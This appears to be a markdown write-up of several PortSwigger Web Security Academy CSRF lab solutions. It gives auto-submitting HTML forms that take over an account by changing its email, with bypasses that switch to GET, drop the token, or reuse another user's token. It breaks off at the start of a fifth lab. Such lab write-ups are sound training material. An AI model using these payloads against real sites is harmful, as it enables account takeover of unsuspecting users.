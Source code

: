 # CSRF (Cross-Site Request Forgery)

## Lab: CSRF vulnerability with no defenses


This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

In this CSSRF challenge there are no protection measures on the application therefore the below simple poc is all that is required to takeover the users account:

```
<html>
	<body>
		<form action="https://0afc001e048626f7c04d456200550006.web-security-academy.net/my-account/change-email" method="POST">
			<input type="hidden" name="email" value="takeover@takeover.com" />
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>

```

All we need to do with this poc is store it on the exploit server and then deliver the link to the victim.


## Lab: CSRF where token validation depends on request method

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

In this challenge the previous poc won't work because the csrf is validated on post requests however it isn't validated on get requests therefore the only thing we need to do is change the method to GET instead of POST and we are able to change the email successfully. Below is the poc I used:

```

<html>
	<body>
		<form action="https://0a53009f046573b4c29ed0e8006b0013.web-security-academy.net/my-account/change-email" method="GET">
			<input type="hidden" name="email" value="takeover@takeover.com" />
                        <input type="hidden" name="csrf" value="9NmEZRE3tQOCuYEX0TjpnTFa5gduIiLh" />
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>

```


## Lab: CSRF where token validation depends on token being present

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter


```

<html>
	<body>
		<form action="https://0a790025042479e9c263b69d00690049.web-security-academy.net/my-account/change-email" method="POST">
			<input type="hidden" name="email" value="takeover@takeover.com" />
            
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>

```

The above PoC works because sometimes the server will validate the CSRF token if the token is presented however if the token is ommitted completely then the server will not try to validate and allow the request to go through.


## Lab: CSRF where token is not tied to user session

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

wiener:peter
carlos:montoya

In this challenge because the token is not tied to the users session you can first obtain a user token by making the post request and then adding that token to the poc form.


```
<html>
	<body>
		<form action="https://0a790025042479e9c263b69d00690049.web-security-academy.net/my-account/change-email" method="POST">
			<input type="hidden" name="email" value="takeover@takeover.com" />
			<input type="hidden" name="csrf" value="GKmQMT0YXJwVBxrR1OybzKCM3MBEKtFl" />
            
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>

```

## Lab: CSRF where token is tied to non-session cookie

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

wiener:peter
carlos:montoya